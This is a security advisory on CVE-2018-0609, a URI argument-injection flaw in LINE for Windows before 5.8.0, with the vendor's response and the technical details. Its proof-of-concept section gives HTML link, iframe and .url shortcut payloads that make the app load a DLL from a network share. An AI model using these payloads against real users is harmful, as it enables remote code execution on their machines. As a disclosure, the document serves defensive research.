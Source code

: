 **Vulnerabilities Summary**<br>
LINE for Windows provided by LINE Corporation specifies the path to read DLL when launching software. A user clicking on a specially crafted link, can use this vulnerability to cause the user to insecurely load an arbitrary DLL which can be used to cause arbitrary code execution.

**Vendor Response**<br>
“We released version 5.8.0 of the modified version LINE PC version (Windows version) on May 31, 2018, and we have automatically updated for all users. The update will be applied automatically on the system side when using the product. Also, when installing the LINE PC version (Windows version) from now on please use the latest installer”.

**CVE**<br>
CVE-2018-0609

**Credit**<br>
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
LINE for Windows before version 5.8.0

**Vulnerability Details**<br>
When processing a ‘line:’ or ‘lineb:’ URI’s it is possible to pass arbitrary command line parameters to LINE.exe, given that the application does not properly parse the mentioned URI ‘scheme:’. In addition, the ‘-platformpluginpath’ parameter supports network share paths. Using this parameter an attacker can cause the application to remotely load a Qt (https://www.qt.io/) DLL library from the network share, found inside the sub-path /imageformats.

**PoC**<br>

```html
<a href='line://?" -platformpluginpath \\192.168.0.1\uncshare "'>contact me</a><br>
<a href='lineb://?" -platformpluginpath \\192.168.0.1\uncshare "'>contact me 2</a>
```

It works with an iframe too.

```html
<iframe src='line://?" -platformpluginpath \\192.168.0.1\uncshare\ "'></iframe>
```

It could be also exploited locally through an .url ‘file:’, for example, creating an internet shortcut file with the next content:

```batch
[InternetShortcut]
URL=line://?" -platformpluginpath \\192.168.0.1\uncshare --
```
